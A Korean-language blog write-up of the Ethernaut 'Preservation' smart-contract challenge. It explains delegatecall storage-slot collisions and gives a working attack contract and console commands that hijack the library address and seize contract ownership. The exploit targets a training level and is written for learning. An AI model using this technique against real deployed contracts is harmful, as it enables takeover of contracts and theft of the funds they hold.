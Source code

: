 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 16) Preservation
date: '2022-01-24 11:14:00'
author: 한성원
tags: ethernaut Preservation vulnerability 
categories: 취약점분석
---
```



# 👋 1. Preservation
__Difficulty 8/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- instance의 ownership을 가져오면 승리한다.

- - -

## 코드 분석
이미 잘 설명되어있어 간단한 분석만 주석에 적었다!

```solidity
contract Preservation {
    
    // public library contracts 
    address public timeZone1Library; // slot 0
    address public timeZone2Library; // slot 1
    address public owner; // slot 2
    uint storedTime; // slot 3

    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    // timeZone에 대한 LibraryAddress 등록 및 owner 등록
    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
        timeZone1Library = _timeZone1LibraryAddress; 
        timeZone2Library = _timeZone2LibraryAddress; 
        owner = msg.sender;
    }
    

    // set the time for timezone 1
    function setFirstTime(uint _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {

    // stores a timestamp 
    uint storedTime;  

    function setTime(uint _time) public {
        storedTime = _time;
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 ownership을 가져오는 것이다.

여기서 우리가 꼭 알아야하는 개념은 delegate call이다. 나도 delegate call에 대해서 2번이나 다뤘지만 이 문제를 풀기 전까지 모호했던 것 같다.
이 문제를 완벽하게 이해할 수 있다면 delegate call에 대해서 좀 더 확신을 가질 수 있을 것이다.

### Delegate Call은 무엇인가?
- [Delegate Call 취약점](https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/)
- [Delegation ethernaut 문제 6](https://holyhansss.github.io/ethernaut/6_delegation_ethernaut/6_delegation_ethernaut/)

위 링크에서 delegate call에 대한 개념을 복습해보자! ~~구글에 좋은 자료도 많아요ㅎㅎ~~

Delegate call은 call과 비슷하지만 다른 2가지 특징을 더 가지고 있다.
1. 호출한 contract의 context를 기반으로 동작된다.
2. storage layout은 delegatecall을 이용하는 contract와 같아야한다.

1번과 2번 특징 모두 이번 문제에 중요한 key이다.
1번 특징에 관해서는 위 글에서 확인할 수 있고 2번 특징 같은 경우 [Privacy 문제 ethernaut 12](https://holyhansss.github.io/ethernaut/12_privacy_ethernaut/12_privacy_ethernaut/)에서 확인 할 수 있다.

### 풀이
우리가 delegate call에 대한 지식이 부족하다면, `setFirstTime(uint _timeStamp)`이 timeZone1Library의 `setTime`에 function을 실행시키고 Preservation contract의 `storedTime`을 바꿀 것이라고 생각할 것이다.
하지만 delegate call은 low level이라는 것을 명심하자! 즉 delegate call은 storage 기반이다. LibraryContract의 `storedTime`은 slot 0를 차지한다. 그렇기 때문에 preservation contract에서 delegate call을 통해 setTime을 호출한다면 이는 preservation contract의 `slot 0`를 바꾸는 것이다.


~~어떻게 설명을 더 잘 쓸 수 있을까...ㅠㅠ~~ 

좀 더 간단하게 정리해보자면:
1. delegate call은 slot기반으로 데이터를 바꿀 수 있다.(변수 이름 X)
2. preservation contract에서 delegate call을 통해 LibraryContract.setTime()을 call 한다.
3. setTime은 LibraryContract의 slot 0을 바꾸는 함수이다.
4. 즉 delegate call setTime을 통해 Preservation contract의 slot 0를 바꿀 수 있다. 

그렇다면 우리가 slot 0을 악의적인 contract로 바꾸면 어떻게 될까? 
`setFirstTime(uint _timeStamp)`에 악의적인 contract의 주소를 매개변수로 넣는다면 slot 0에 있는 timeZone1Library가 악의적인 contract로 바뀔 것이고 우리는 delegate call의 특성을 사용해 slot들을 마음대로 바꿀 수 있게된다.

그럼 한번 풀이를 보도록 하자!
우선 공격에 필요한 악의적인 contract를 만든다(on remix).
storage layout이 Perservation과 같아야한다.

```solidity
contract PreservationAttack {
    address public timeZone1Library; // slot 0
    address public timeZone2Library; // slot 1
    address public owner; // slot 2
    uint storedTime; // slot 3

    // Perservation에서 setTime으로 delegatecall을 보내기 때문에 이름이 똑같아야한다!
    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

attack contract는 완성이 되었다!
그럼 공격의 시나리오를 보자.
1. PreservationAttack를 deploy한다.
2. Preservation.setFirstTime()을 PreservationAttack의 주소와 함께 호출한다.
3. Preservation의 timeZone1Library는 PreservationAttack로 변한다.
4. 한번 더 setFirstTime()을 호출하게되면 LibraryContract가 아닌 PreservationAttack의 setTime을 호출한다.
5. setTime은 storage의 slot 2(owner)를 msg.sender로 바꾼다.
6. DONE!


그럼 attack contract를 deploy한 후 console 창에서는 무엇이 이루어지는지 확인해보자.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 기존의 timeZone1Library를 확인한다.
await contract.timeZone1Library()

// attack contract의 주소를 매개변수로하여 setFirstTime을 호출한다.
await contract.setFirstTime("0x6bF70e10D96F41F8AE2C3EDbe017ECEc5242C50D")

// timeZone1Library가 attack contract의 주소로 바뀐 것을 확인할 수 있다.
await contract.timeZone1Library()

// setFirstTime의 delegatecall을 활용하여 attack contract의 setTime을 호출한다. 
// 이때 매개변수는 무엇이 되어도 상관없다.
// 왜냐하면 attack contract의 setTime은 매개 변수를 사용하지 않는다.
await contract.setFirstTime("0123456789")

// owner가 자신이 된 것을 확인할 수 있다.
await contract.owner()
```


완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
이번 문제는 [delegation](https://holyhansss.github.io/ethernaut/6_delegation_ethernaut/6_delegation_ethernaut/) 문제때 보다 delegate call에 대해 좀 더 깊이 이해할 수 있었던 기회였던 것 같다. 솔직히 지금까지는 delegate call이 나에게 가장 어려운 컨셉이었다. 앞으로도 배울 것이 많으니 꾸준히 공부해보자 :)!

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DelegateCall 취약점 :https://holyhansss.github.io/vulnerability/delegate_call/delegate_call/
- Solidity Docs delegate call: https://docs.soliditylang.org/en/v0.8.10/introduction-to-smart-contracts.html

```toc

```